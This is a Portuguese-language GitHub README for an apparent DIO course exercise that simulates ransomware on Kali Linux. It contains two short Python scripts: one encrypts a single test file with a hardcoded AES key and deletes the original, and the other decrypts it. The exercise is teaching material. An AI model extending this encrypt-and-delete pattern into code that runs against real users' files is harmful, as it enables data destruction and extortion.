 # Projeto desafio ransomwre

Projeto criado para curso da DIO utilizando o a distribuição Kali linux. 
## Passo a passo

1. Abrir o PROTON VPN (ou outro VPN, no caso esse eu já conhecia)
2. Abrir o Kali Linux
3. Abrir o prompt
4. Logar como root: digitar "sudo su" e, quando solicitado digitar a senha do sistema
5. Criar um diretorio: "mkdir projeto_ransowre"
6. Criar o arquivo descripto.py com o comando:"nano descripto.py"
7. digitar o codigo em python:

{import os
import pyaes

## abrir o arquivo criptografado
file_name = "teste.txt.ransomwaretroll"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## chave para descriptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)
decrypt_data = aes.decrypt(file_data)

## remover o arquivo criptografado
os.remove(file_name)

## criar o arquivo descriptografado
new_file = "teste.txt"
new_file = open(f'{new_file}', "wb")
new_file.write(decrypt_data)
new_file.close()

![capturadetela](/ProjetoDois/decripto.png)
 
8. Criar o arquivo encripta. py com o seghunte código:

import os
import pyaes

## abrir o arquivo a ser criptografado
file_name = "teste.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## remover o arquivo
os.remove(file_name)

## chave de criptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

## criptografar o arquivo
crypto_data = aes.encrypt(file_data)

## salvar o arquivo criptografado
new_file = file_name + ".ransomwaretroll"
new_file = open(f'{new_file}','wb')
new_file.write(crypto_data)
new_file.close()
}
9.  Salvar o arquivo com o ctrl + O e encerrar o arquivo com o comando ctrl + x

![capturadetela](/ProjetoDois/encripto.png))
10. Testar

